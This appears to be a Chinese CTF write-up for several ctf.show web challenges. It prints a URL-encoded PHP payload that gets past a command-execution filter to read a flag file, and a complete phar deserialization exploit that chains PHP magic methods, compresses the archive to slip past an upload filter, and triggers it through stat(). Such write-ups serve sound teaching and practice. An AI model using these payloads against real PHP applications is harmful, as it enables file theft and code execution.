

# 热身

```php
?num= 010574
```

参考web入门web95


# shellme

flag就在phpinfo中

# shellme_Revenge

基本上是之前比赛的原题了，参考我之前的文章：

https://blog.csdn.net/rfrder/article/details/119535886

phpinfo页面中有hint:?looklook，传一下得到源码，同样是这样限制的命令执行，直接打就行了。不过问题就是ban了所有的命令执行，发现`highlight_file`没办，读`/flag.txt`即可：

```php
http://b64ef862-f0ed-4c0f-b2c9-9e89d4cf6aca.challenge.ctf.show:8080/?0=highlight_file&1=/flag.txt

ctf_show=%24_%3DC%3B%2B%2B%24_%3B%24C%3D%2B%2B%24_%3B%2B%2B%24_%3B%24__%3D%2B%2B%24_%3B%24_%3D(C%2FC.C)%5B0%5D%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24_%3D_.%24__.%24C.%24_%3B%24%24_%5B0%5D(%24%24_%5B1%5D)%3B
```


# ATTup

最后能联想到虎符CTF2021线下的`tinypng`那题。

正常上传然后查询，f12可以得到源码：

```php
<?php

class View {
    public $fn;
    public function __invoke(){
        $text = base64_encode(file_get_contents($this->fn));
        echo "<script>alert('".$text."');self.location=document.referrer;</script>";
    }
}
class Fun{
    public $fun = ":)";
    public function __toString(){
        $fuc = $this->fun;
        $fuc();
        return "<script>alert('Be a happy string~');self.location=document.referrer;</script>";
    }
    public function __destruct()
    {
        echo "<script>alert('Just a fun ".$this->fun."');self.location=document.referrer;</script>";
    }
}
$filename = $_POST["file"];
$stat = @stat($filename);
```

很明显的`phar`反序列化，用`stat`触发：

```php
<?php
class View {
    public $fn;
}
class Fun{
    public $fun = ":)";
}
$a = new Fun();
$a->fun = new Fun();
$a->fun->fun = new View();
$a->fun->fun->fn = "/flag";


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

生成phar后直接改后缀为zip还是传不上去，怀疑和虎符那题的过滤差不多：

```php
if (preg_match("/<\?|php|HALT\_COMPILER/i", $content )){
    $error = 'Don\'t do that, please';
    return back()
}
```

用`gzip`或者`bzip2`压缩来绕过即可：

```shell
gzip phar.phar
```

产生phar.phar.gz，把后缀名改成zip然后上传，再post传参phar即可得到flag：

```php
file=phar://./phar.phar.zip
```


